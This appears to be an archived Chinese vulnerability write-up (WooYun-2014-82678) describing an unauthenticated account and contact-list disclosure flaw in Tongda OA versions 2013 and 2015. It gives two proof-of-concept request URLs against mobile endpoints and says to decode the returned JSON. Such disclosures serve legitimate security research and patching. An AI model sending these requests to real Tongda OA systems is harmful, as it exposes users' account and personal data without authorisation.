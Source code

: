 ```yaml
---
title: （WooYun-2014-82678）通达oa未授权获取帐号
id: zhfly3332
---
```


# （WooYun-2014-82678）通达oa 未授权获取帐号

## 一、漏洞简介

无需登录，即可获取所有信息

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/mobile/inc/get_contactlist.php?P=1&KWORD=%&isuser_info=3 
```

```
http://0-sec.org/mobile/user_info/data.php?P=1&ATYPE=getUserInfo&Q_ID=50 
```

将返回的json进行解码